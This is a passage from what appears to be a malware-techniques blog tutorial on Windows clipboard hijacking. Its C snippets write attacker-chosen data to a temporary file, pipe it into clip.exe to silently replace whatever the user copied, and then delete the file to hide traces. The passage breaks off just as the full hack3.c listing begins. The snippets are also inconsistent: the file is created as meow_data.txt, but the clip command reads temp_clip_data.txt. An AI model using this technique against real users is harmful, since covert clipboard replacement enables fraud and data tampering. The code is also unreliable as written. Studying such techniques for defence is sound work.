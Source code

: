 Once Paint is launched, the program will hijack the clipboard content and modify it.     

### practical example 3 (using clip.exe to manipulate clipboard content)

One of the popular trick in the wild. The attacker replaces the clipboard content with their own data by redirecting output to `clip.exe`.      

`clip.exe` is a Windows utility that copies the data from a file or input stream to the clipboard. By redirecting the contents of a temporary file into `clip.exe`, the attacker can modify what is placed in the clipboard.       

This method allows an attacker to silently replace any copied data with their own custom data, which could be sensitive or malicious.     

What is the main features of this example:    

first of all we need malicious data - the data to be placed in the clipboard is defined as `"Meow-meow!!"`, which could be any arbitrary malicious data that an attacker wants to replace the clipboard contents with     

```cpp
const char *maliciousData = "Meow-meow!!";
```

then we need temporary file creation - the program creates a temporary file (temp_clip_data.txt) where the malicious data will be written. This is necessary because `clip.exe` works by reading from a file or standard input.    

```cpp
// create a temporary file to store the malicious data
FILE *tmpFile = fopen("meow_data.txt", "w");
if (tmpFile == NULL) {
  printf("failed to create temporary file.\n");
  return;
}

// write the malicious data to the file
fprintf(tmpFile, "%s", maliciousData);
fclose(tmpFile);
```

at the next step we need executing `clip.exe` - the command `clip < meow_data.txt` is executed using the `system()` function. This copies the contents of the temporary file to the clipboard:    

```cpp
char command[256];
snprintf(command, sizeof(command), "clip < temp_clip_data.txt");

// execute the command
system(command);
```

at the final, after using `clip.exe`, the temporary file is deleted to avoid leaving any traces.      

So full source code with this logic is simple, like this (`hack3.c`):    

```cpp
/*
 * hack3.c
 * simple clipboard hijacking
 * using clip.exe to manipulate clipboard content
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/05/10/malware-tricks-47.html
 */
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

void hijackClip() {
  // prepare the data to be placed in the clipboard
```
